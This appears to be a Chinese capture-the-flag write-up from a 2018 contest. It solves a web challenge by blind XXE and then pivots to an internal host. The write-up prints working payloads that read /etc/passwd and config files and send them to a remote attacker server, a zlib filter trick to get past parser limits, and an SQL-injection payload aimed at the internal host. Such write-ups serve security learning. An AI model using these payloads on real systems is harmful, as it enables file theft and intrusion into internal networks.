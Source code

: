 comment处有被userdecode处理过，试一下xml头，就可以看到有报错，考点应该就是xxe。

`<?xml version="1.0" encoding="utf-8"?>`

![](https://ctfwp.wetolink.com/2018qiangwang/17.jpeg)

通过盲xxe，可以获取到文件。

远程服务器布置一个1.xml

```
<!ENTITY % payload SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % int "<!ENTITY &#37; trick SYSTEM 'http://ip/test/?xxe_local=%payload;'>">
%int;
%trick;
```
comment再进行调用
```
<?xml version="1.0" encoding="utf-8"?><!DOCTYPE root [<!ENTITY % remote SYSTEM "http://ip/xxe/1.xml"> %remote; ]></root>
```
获取一下`/var/www/52dandan.cc/public_html/config.php`
```
<?php
define(BASEDIR, "/var/www/52dandan.club/");
define(FLAG_SIG, 1);
define(SECRETFILE,'/var/www/52dandan.com/public_html/youwillneverknowthisfile_e2cd3614b63ccdcbfe7c8f07376fe431');
....
?>
```
拿到了一半的flag
```
Ok,you get the first part of flag : 5bdd3b0ba1fcb40
then you can do more to get more part of flag
```
这里出现了一个问题，就是获取`/var/www/52dandan.cc/public_html/common.php`的时候出现了Detected an entity reference loop错误。

![](https://ctfwp.wetolink.com/2018qiangwang/18.jpeg)

查了一下资料，libxml解析器默认限制外部实体长度为2k，没法突破，只能寻找一下压缩数据方面的。php过滤器中提供了一个zlib.inflate压缩数据。

```
压缩：echo file_get_contents("php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd");
解压：echo file_get_contents("php://filter/read=convert.base64-decode/zlib.inflate/resource=/tmp/1");
```
这样就可以获取到common.php文件源码了!

![](https://ctfwp.wetolink.com/2018qiangwang/19.jpeg)

再获取一下机器的一些ip信息，其中arp信息中保留了一个内网地址
```
/proc/net/arp
/etc/host
```
```
IP address       HW type     Flags       HW address            Mask     Device
192.168.223.18   0x1         0x2         02:42:c0:a8:df:12     *        eth0
192.168.223.1    0x1         0x2         02:42:91:f9:c9:d4     *        eth0
```
开放了一个80端口，test.php的shop参数存在注入
```
<!ENTITY % payload     SYSTEM     "http://192.168.223.18/test.php?shop=3'-(case%a0when((1)like(1))then(0)else(1)end)-'1">
<!ENTITY % int "<!ENTITY &#37; trick SYSTEM 'http://ip/test/?xxe_local=%payload;'>">
%int;
%trick;
```